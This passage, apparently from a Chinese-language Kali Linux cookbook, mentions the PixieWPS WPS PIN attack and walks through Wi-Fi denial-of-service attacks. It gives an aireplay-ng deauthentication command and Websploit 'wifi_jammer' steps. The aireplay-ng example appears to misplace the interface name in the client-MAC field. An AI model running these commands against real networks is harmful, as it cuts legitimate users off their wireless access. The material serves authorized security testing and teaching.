 +   `-vv`：这会显示有关脚本正在执行的更多非关键信息，以更好地理解过程

## 还有更多...

PixieWPS 是一种用于离线暴力破解 WPS PIN 的工具，同时利用了一些无线接入点的低或不存在的熵，也被称为 Pixie Dust 攻击；这是 Dominique Bongard 发现的。PixieWPS 工具（由 wiire 开发）诞生于 Kali 论坛。

在下一个步骤中，我们将看到拒绝服务攻击是如何在网络上发生的。

# 拒绝服务攻击

最主要的攻击之一是拒绝服务攻击，整个无线网络都可以被破坏；在这种攻击中，合法用户将无法访问网络。无线网络很容易受到这种攻击。由于用户的识别是基于 Mac 地址的，因此很难追踪这种活动的来源。这种情况发生的几种方式包括伪造假的源地址，或者通过复制路由器请求配置更改。一些设备也会通过完全关闭网络来响应 DoS 攻击。一种方法是向无线网络发送垃圾数据包或持续向网络上的所有用户发送 Deauth 数据包。

在这个教程中，我们将看到 DoS 攻击是如何发生的。

## 准备工作

我们需要一个正在积极浏览互联网或网络的用户，另一端我们将有我们的 Kali Linux 机器和连接到它的无线适配器。

## 操作步骤...

1.  执行 DoS 攻击最简单的方法之一是 Deauth 攻击；在这里，我们将使用`aireplay`通过以下命令对网络执行 Deauth 攻击：

```
      aireplay-ng --deauth 100 -a (BSSID) -c wlan0mon

```

输出将如下截图所示：

![操作步骤...](img/image_10_026.jpg)

1.  Websploit 中还有一些有效载荷；其中一个称为 Wi-Fi 干扰器。在 Kali 终端中使用以下命令执行：

```
      websploit
      use wifi/wifi_jammer
      show options
      set bssid xx:xx:xx:xx:xx:xx
      set essid xx:xx:xx:xx:xx:xx
      set interface wlanx
      set channel x
      run

```
